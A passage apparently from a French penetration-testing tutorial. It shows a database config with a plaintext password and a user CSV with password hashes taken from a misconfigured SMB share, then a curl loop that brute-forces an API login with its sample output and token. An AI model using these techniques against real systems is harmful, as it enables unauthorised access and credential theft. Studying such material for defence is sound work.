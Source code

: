 ```
<?php
$db_host = 'localhost';
$db_user = 'webapp_user';
$db_pass = 'SuperSecretPassword123!';
$db_name = 'webapp';
?>

$ head -n 5 users.csv
id,username,email,password_hash,role
1,admin,admin@example.com,$2y$10$XjG/JzjJ4.7JK/APQW5ROeN1U8JVQR5HI9FxPHFcZXeR9zbZ3aYmy,administrator
2,john,john.smith@example.com,$2y$10$Hl7Fh7YWYVuXHwVBs0SQ9eVlnFYhX5V6o5OzQXH2hQrI9vWHOuS6y,user
3,jane,jane.doe@example.com,$2y$10$QwJ5DZK1QKV6qP5TRz6ZB.9Pj1XKE9TXP8LqNcNWy.BvGxCsjH.Hy,user
4,robert,robert.johnson@example.com,$2y$10$7KgF5E9v5HlL5JZf6r5ZEeZIyH5MVGpIQxSn1L2KpW3XQxvF3HyPK,manager
```

**Analyse :** Cette séquence de commandes exploite un partage SMB mal configuré qui permet l'accès anonyme. L'attaquant peut lister et télécharger des fichiers sensibles, notamment un fichier de configuration contenant des identifiants de base de données et un fichier CSV contenant des informations sur les utilisateurs. Ces informations peuvent être utilisées pour d'autres attaques, comme l'accès à la base de données ou le craquage des hachages de mots de passe.

#### 7. Exploitation de vulnérabilités d'authentification

**Commande pour exploiter une authentification faible via API :**
```bash
for i in {1..5}; do
  curl -s -X POST "http://192.168.1.50/api/v1/login" \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"admin'$i'"}' | jq
done
```

**Sortie typique :**
```json
{
  "status": "error",
  "message": "Invalid credentials"
}
{
  "status": "error",
  "message": "Invalid credentials"
}
{
  "status": "success",
  "message": "Login successful",
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzEyMDg2NTAwLCJleHAiOjE3MTIwOTAxMDB9.6JLz1jIqR3yT7Kj2VX4XsZ8_JZxKvQ9MvzJVy9X9Z8w"
}
{
  "status": "error",
  "message": "Invalid credentials"
}
{
  "status": "error",
  "message": "Invalid credentials"
}
```
